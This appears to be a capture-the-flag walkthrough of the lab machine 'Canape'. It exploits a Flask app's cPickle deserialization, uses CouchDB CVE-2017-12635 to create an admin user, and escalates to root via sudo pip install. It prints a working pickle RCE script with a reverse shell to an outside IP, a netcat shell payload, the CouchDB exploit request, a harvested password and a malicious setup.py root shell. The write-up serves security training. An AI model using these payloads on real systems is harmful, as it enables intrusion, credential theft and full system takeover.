



Exploitation Summary
Exploitation process: The target machine was running a Flask web application with a Git repository exposed at git.canape.htb, which allowed me to download the complete source code and analyze it. The application had a hidden check functionality that used Python's cPickle to deserialize user-supplied data without proper validation, leading to arbitrary code execution.
By crafting a malicious pickle payload that bypassed the character whitelist validation, I achieved remote code execution and gained initial access as the www-data user. During enumeration, I discovered a CouchDB instance running on port 5984 that contained a password database, but it required authentication.
I exploited CVE-2017-12635, a privilege escalation vulnerability in CouchDB 2.0.0 that allows creating admin users through duplicate role keys in the user creation request. After gaining admin access to CouchDB, I retrieved credentials for the homer user from the passwords database. Finally, I escalated to root by exploiting sudo permissions on pip install, creating a malicious Python package that executed a shell when installed with sudo privileges.
Technologies/Exploits: Python pickle deserialization RCE, CouchDB CVE-2017-12635 privilege escalation, pip install sudo abuse for privilege escalation.
Initial Reconnaissance
I start with an nmap scan to identify open ports and services on the target machine:

The scan reveals a typical setup with ports 22 and 80, though SSH has been relocated to port 65535. Port 80 is running an HTTP server which will be our primary attack surface.
Web Enumeration - Git Repository Discovery
I add both canape.htb and git.canape.htb to my /etc/hosts file. Navigating to the git subdomain, I discover an exposed Git repository that I can clone remotely:
git clone http://git.canape.htb/This gives me access to the complete source code of the application and all commit history. While reviewing the code, I find interesting configuration details that will be useful later during privilege escalation:
app = Flask(__name__)
app.config.update(
DATABASE = "simpsons"
)
db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]This reveals that there's likely a CouchDB database running internally on port 5984, which isn't externally accessible but may be exploitable from within the system.
Application Analysis - Simpsons Quote Website
The main application is a Simpsons quotes website where users can submit and view character quotes:

Analyzing the Git commit history, I discover that a certain functionality was hidden from the frontend due to "vulnerabilities":

Vulnerability Discovery - Pickle Deserialization
After thoroughly investigating and analyzing the source code, I identify the critical vulnerability in the /check endpoint. The vulnerable line is:
item = cPickle.loads(data)This cPickle.loads() method deserializes user input, and if that input contains executable code, it will be executed during the deserialization process. This is a classic insecure deserialization vulnerability.
Understanding the Application Flow
The application works as follows:
- When a user submits a character name and quote via
POST /submit, the server calculates the MD5 hash of character + quote and stores it in/tmp/md5.p - The
POST /checkendpoint reads the file by its MD5 hash and checks if the content contains the string "p1" - If it does, it attempts to deserialize the content using
cPickle.loads() - However, there's a whitelist validation that only allows specific character names
The character whitelist is defined as:
WHITELIST = [
"homer",
"marge",
"bart",
"lisa",
"maggie",
"moe",
"carl",
"krusty"
]Initial Access - Crafting the Pickle Exploit
I find a useful pickle payload generator at this GitHub Gist that demonstrates how to create malicious pickle payloads:
import cPickle
import sys
import base64
DEFAULT_COMMAND = "netcat -c '/bin/bash -i' -l -p 4444"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND
class PickleRce(object):
def __reduce__(self):
import os
return (os.system,(COMMAND,))
print base64.b64encode(cPickle.dumps(PickleRce()))This code creates a pickle payload that, when deserialized on the victim server, executes an arbitrary command. Since this machine is from 2018 and uses Python 2, I use pyenv to install Python 2.7 for compatibility:
pyenv install 2.7
pyenv shell 2.7Bypassing the Whitelist
I modify the exploit to send a reverse shell and bypass the whitelist validation. The trick is to include a whitelisted character name followed by a colon, which will cause an error but satisfies the whitelist requirement:
import os
import cPickle
from hashlib import md5
import requests
class Exploit(object):
def __reduce__(self):
return (os.system, ('homer:;bash -i >& /dev/tcp/10.10.16.6/443 0>&1',))
shellcode = cPickle.dumps(Exploit())
requests.post("http://canape.htb/submit",
data={'character': shellcode.split(":")[0],
'quote': shellcode.split(":")[1]})
requests.post("http://canape.htb/check",
data={'id': md5(shellcode.split(":")[0] + shellcode.split(":")[1]).hexdigest()})The exploit works as follows:
- Create a reverse shell payload with "homer:" prefix (causes an error but passes whitelist)
- Split the payload by ":" to separate character and quote
- Send the payload to the server via
/submit - Calculate the MD5 hash and call
/checkto trigger deserialization - Receive the reverse shell connection
I set up a netcat listener:
sudo nc -lvnp 443After running the exploit, I successfully receive a shell as www-data. I upgrade the TTY for better interaction:
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z
stty raw -echo; fgEnumeration - CouchDB Discovery
During enumeration, I see a user named homer in /home. Remembering the database configuration from the source code, I check for listening ports:
ss -tulnThis confirms that CouchDB is running on port 5984. I research how to interact with CouchDB and learn it's a NoSQL database that can be accessed via HTTP methods like GET and POST.
Initial Database Enumeration
I start exploring the database:
curl http://localhost:5984/Response:
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}Listing all databases:
curl http://localhost:5984/_all_dbsResponse:
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]The passwords database looks very interesting. I try to access it:
curl http://localhost:5984/passwords/_all_docs?include_docs=trueResponse:
{"error":"unauthorized","reason":"You are not authorized to access this db."}Similarly, trying to access the _users database:
curl http://localhost:5984/_users/_all_docs?include_docs=trueResponse:
{"error":"unauthorized","reason":"You are not a server admin."}The simpsons database only contains character quotes. I need admin credentials to access the sensitive databases.
Privilege Escalation in CouchDB - CVE-2017-12635
I search for exploits affecting CouchDB version 2.0.0 and discover CVE-2017-12635, which allows privilege escalation within CouchDB through duplicate role keys in user creation requests. More information can be found at CVE Details.
Creating an Admin User
The vulnerability allows me to create a user with admin privileges by including duplicate roles keys in the JSON payload:
curl -X PUT -d '{"type":"user","name":"xd","roles":["_admin"],"roles":[],"password":"xd"}' \
localhost:5984/_users/org.couchdb.user:xd \
-H "Content-Type:application/json"Now that my user xd has admin privileges, I can access the passwords database:
curl http://xd:xd@localhost:5984/passwords/_all_docs?include_docs=trueThis reveals stored credentials:

I extract the following credentials:
homer:0B4jyA0xtytZi7esBNGpLateral Movement - SSH as Homer
Using the discovered credentials, I successfully SSH into the machine as homer on port 65535:
ssh homer@canape.htb -p 65535After logging in, I can retrieve the user flag from homer's home directory.
Privilege Escalation to Root - Pip Install Sudo Abuse
I check what sudo privileges the homer user has:
sudo -lOutput:
User homer may run the following commands on canape:
(root) /usr/bin/pip install *The user can run pip install with any arguments as root without a password. This is a well-known privilege escalation vector documented on GTFOBins.
Creating a Malicious Python Package
I create a malicious Python package that will execute a shell when installed. The technique works by creating a setup.py file with arbitrary code that runs during installation:
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TFWhat happens here is:
- Create a temporary directory
- Write a
setup.pyfile that executes/bin/shusingos.execl() - Install the "package" with sudo, which runs
setup.pyas root - The shell spawned by
setup.pyruns with root privileges
After executing these commands, I successfully escalate to root:
whoamirootI can now retrieve the root flag and complete the machine.